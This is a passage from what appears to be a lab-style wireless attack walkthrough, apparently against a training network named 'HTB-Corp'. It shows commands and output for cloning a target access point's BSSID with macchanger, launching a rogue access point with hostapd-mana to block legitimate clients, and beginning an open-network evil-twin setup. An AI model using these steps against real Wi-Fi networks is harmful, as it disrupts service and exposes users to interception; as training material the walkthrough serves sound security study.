 | `rsn_pairwise` | Specifies CCMP (AES) as the encryption method for WPA2. |
| `wpa_passphrase` | Sets the WPA2 PSK passphrase to "PSKmismatchmaker". |

Next, we use macchanger to modify the MAC address of the wlan1 interface, ensuring it matches the target AP's BSSID. This step is crucial for creating the MAC collision necessary to disrupt the legitimate AP's functionality.

```shell
ifconfig wlan1 down

```

```shell
macchanger -m 9C:9A:03:39:BD:7A wlan1

Current MAC:   66:e9:37:38:1c:49 (unknown)
Permanent MAC: 66:e9:37:38:1c:49 (unknown)
New MAC:       9c:9a:03:39:bd:7a (unknown)

```

```shell
ifconfig wlan1 up

```

Now, to start the fake access point, we will use [hostapd-mana](https://github.com/sensepost/hostapd-mana) which is an excellent tool for this purpose, as it supports `KARMA/MANA` attacks, negotiable EAP methods, and other valuable features. We use the command `hostapd-mana mac.conf` to start our fake access point. This rogue AP will generate collision events, effectively blocking legitimate clients from accessing the target access point.

```shell
hostapd-mana mac.conf
Configuration file: mac.conf
rfkill: Cannot open RFKILL control device
Using interface wlan1 with hwaddr 9C:9A:03:39:BD:7A and ssid "HTB-Corp"
random: Only 19/20 bytes of strong random data available from /dev/random
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED
Unsupported authentication algorithm (3)
handle_auth_cb: STA 62:bd:99:a1:9e:1b not found
MANA - Directed probe request for SSID 'HTB-Corp' from 62:bd:99:a1:9e:1b
MANA - Directed probe request for SSID 'HTB-Corp' from 62:bd:99:a1:9e:1b

```

### 2\. Deploy an Open-Network AP

Next, we set up a rogue access point configured as an open network to attract disconnected clients. This rogue AP will mimic the legitimate AP's SSID and channel to appear authentic. To begin, we create an `open.conf` file with the following contents:
